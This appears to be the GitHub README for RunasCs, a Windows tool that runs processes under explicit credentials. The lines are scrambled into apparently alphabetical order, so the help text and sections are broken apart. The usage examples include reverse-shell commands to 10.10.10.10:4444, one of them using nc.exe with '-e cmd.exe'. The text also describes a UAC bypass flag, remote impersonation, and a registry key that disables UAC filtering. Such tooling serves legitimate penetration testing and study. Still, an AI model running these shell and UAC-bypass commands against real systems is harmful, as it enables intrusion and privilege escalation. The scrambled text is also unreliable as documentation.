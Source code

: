 
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
                            CreateProcess function to use. When not specified
                            Default: ""
                            Default: "120000"
                            Default: "2" - Interactive
                            If you set 0 no output will be retrieved and a
                            RunasCs determines an appropriate CreateProcess
                            This will ensure the process will have the
                            This will halt RunasCs until the spawned process
                            Using this option sets the process_timeout to 0.
                            WARNING: If non-existent, it creates the user profile
                            background process will be created.
                            directory in the C:\Users folder.
                            domain of the user, if in a domain.
                            ends and sent the output back to the caller.
                            environment variables correctly set.
                            force the creation of the user profile on the machine.
                            function automatically according to your privileges.
                            logged on user to the main thread.
                            redirect stdin, stdout and stderr to a remote host.
                            spawn a new process and assign the token of the
                            the logon type for the token of the new process.
                            the waiting time (in ms) for the created process.
                            token limitations (not filtered).
                            try a UAC bypass to spawn a process without
        RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
        RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
        RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
        RunasCs.exe user1 password1 "cmd /c whoami /all"
        RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
        RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
    -b, --bypass-uac
    -d, --domain domain
    -f, --function create_process_function
    -i, --remote-impersonation
    -l, --logon-type logon_type
    -p, --force-profile
    -r, --remote host:port
    -t, --timeout process_timeout
    Redirect stdin, stdout and stderr of the specified command to a remote host
    Run a background process as a local user,
    Run a command as a domain user and logon type as NetworkCleartext (8)
    Run a command as a local user
    Run a command as an Administrator bypassing UAC
    Run a command as an Administrator through remote impersonation
    Run a command simulating the /netonly flag of runas.exe
    RunasCs is an utility to run specific processes under a different user account
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--force-profile] [--bypass-uac] [--remote-impersonation]
    by specifying explicit credentials. In contrast to the default runas.exe command
    cmd                     commandline for the process
    it supports different logon types and CreateProcess* functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    password                password of the user
    to remote hosts) and you can specify the password directly on the command line.
    username                username of the user
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.
### Credits
### References
### Requirements
### RunasCs
### Usage
* Allows explicit credentials
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* It's Open Source :)
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Works both if spawned from interactive process and from service process
* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)
* [Creating a Child Process with Redirected Input and Output](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
* [Getting an Interactive Service Account Shell](https://www.tiraniddo.dev/2020/02/getting-interactive-service-account.html)
* [Interactive Services](https://learn.microsoft.com/en-us/windows/win32/services/interactive-services)
* [Potatoes and tokens](https://decoder.cloud/2018/01/13/potato-and-tokens/)
* [Reading Your Way Around UAC (Part 1)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
* [Reading Your Way Around UAC (Part 2)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-2.html)
* [Reading Your Way Around UAC (Part 3)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-3.html)
* [Starting an Interactive Client Process in C++](https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85))
* [Vanara - A set of .NET libraries for Windows implementing PInvoke calls to many native Windows APIs with supporting wrappers](https://github.com/dahall/Vanara)
* [What is up with "The application failed to initialize properly (0xc0000142)" error?](https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/)
**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
*RunasCs* has an automatic detection to determine the best create process function for every contexts.
*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
----
-----
.NET Framework >= 2.0
1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:
By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process. 
Description:
Examples:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasCs* won't wait for the end of the newly spawned process execution.
Optional arguments:
Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.
Positional arguments:
RunasCs v1.5 - @splinter_code
The default logon type is 2 (*Interactive*). 
The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:
Usage:
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:
```
```console
